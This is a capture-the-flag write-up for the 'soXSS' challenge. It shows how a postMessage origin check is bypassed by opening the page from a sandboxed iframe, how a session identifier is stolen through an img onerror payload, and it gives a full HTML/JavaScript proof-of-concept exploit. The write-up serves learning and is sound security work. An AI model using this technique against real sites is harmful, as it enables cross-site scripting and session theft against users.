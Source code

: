 ## soXSS

![2022-04-07_01-54](https://user-images.githubusercontent.com/59454895/162093274-f54f182c-1dae-4f29-98ce-a7e1792f40fd.png)

## Let's begin

The first thing that can be noticed in the challenge is the use of post-messages and also the use of dompurify ( The latest version of the library was in use, so we couldn't bypass DomPurify without having a 0day ), as you can see from this screen:

![2022-04-07_02-01](https://user-images.githubusercontent.com/59454895/162093835-fd21e646-42a8-4395-b241-62196c4346ec.png)


Furthermore, at the following link (https://so-xss.terjanq.me/iframe.php/?source) it is possible to notice another part of the code, here the goal is very straightforward, the highlighted condition needs to be bypassed in order to reach the sink and execute XSS.

![2022-04-07_02-07](https://user-images.githubusercontent.com/59454895/162094500-690c045b-eaf3-44e0-bee3-82b866bf9d34.png)

The functioning of this part of the code is very clear, a listener event was used in order to check that the source and the identifier are not different, it's also important to say that the identifier is stored in an user's session.

First of all it was necessary to find a way to bypass this check ```e.origin !== window.origin```, After hitting my head a bit I found this thread on StackOverflow that really helped me a lot (https://stackoverflow.com/questions/55451493/what-is-window-origin,  https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe#attr-sandbox), apparently if we embed the iframe via ```<iframe src="https://so-xss.terjanq.me/iframe.php" sandbox>``` we can force the ```null``` origin.

Now another problem arises, as the page cannot be embedded inside an iframe because there was the flag ```X-Frame-Options: SAMEORIGIN```. It means that the page can only be displayed in a frame on the same origin as the page itself. 

### There is still hope

One important feature proved very important to overcome this problem, all windows opened from sandbox iframe inherit the sandbox flag, as documentated here: https://www.w3.org/TR/2010/WD-html5-20100624/the-iframe-element.html.
It means that we don't need to put the page inside an iframe, we can just created a sandbox iframe and use ```window.open``` inside it, like this:
```javascript
<iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
  function run() {
    var win = window.open('https://so-xss.terjanq.me/iframe.php')
    setTimeout(() => {
      win.postMessage({
            identifier: 'abc',
            type: 'render',
            body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
        }, '*');
    }, 2000)
  }
</script>"></iframe>
```
In this way the newly opened window inherit the sandbox flag and his origin will become null. Just to be more clear, it means that the iframe with the ```sandbox``` attribute and the window for iframe.php (which is accessible by the variable win) share the same origin null.
Now another issue appears, The page on iframe.php has the origin "null", so we can't access any resources on the origin ```so-xss.terjanq.me``` and the rules says that we need to execute xss on that origin.

This is where the parameter ```identifier``` comes into play, because it's possible to open ```https://so-xss.terjanq.me/iframe.php``` and send XSS with stolen identifier so the origin is ```so-xss.terjanq.me```.

This is the final poc :
```javascript
<html lang="en">
  <head>
    <meta charset="utf-8">
    <title>test</title>
  </head>
  <body>
    <iframe id=f sandbox="allow-scripts allow-top-navigation allow-forms allow-modals allow-popups" srcdoc="<button onclick=run()>click me 1</button><script>
      function run() {
        var win = window.open('https://so-xss.terjanq.me/iframe.php')
        setTimeout(() => {
          win.postMessage({
                identifier: 'abc',
                type: 'render',
                body: `<img src=x onerror=opener.top.postMessage({identifier},'*')>`,
            }, '*');
        }, 2000)
      }
    </script>"></iframe><button onclick="run()">click me 2</button>
    <script>
      var realWin
      var identifier

      function send() {
        if (!realWin) {
          setTimeout(send, 500)
          return
        }

        // give it some time to load
        setTimeout(() => {
          realWin.postMessage({
            identifier,
            type: 'render',
            body: `<img src=x onerror=alert(origin)>`,
          }, '*');
        }, 1000)
        
      }
      onmessage = (e) => {
        if (e.data && e.data.identifier) {
          identifier = e.data.identifier
          console.log('identifier:', identifier)
          send()
        }
      }
      function run() {
        realWin = window.open('https://so-xss.terjanq.me/iframe.php')
      }

    </script>
  </body>
</html> 
```
To resume :

1) Open https://so-xss.terjanq.me/iframe.php from a sandboxed iframe with ```window.open```, so in this way the newly opened window inherit the sandbox flag and his origin will become null.
2) Open https://so-xss.terjanq.me/iframe.php and send the XSS with the stolen identifier, in this way the origin will be ```so-xss.terjanq.me.```

To conclude I would like to thank huli who helped me to write and fix some bugs on the final poc (I suck with javascript syntax lol), I also hope someone will find this writeup useful for learning something new


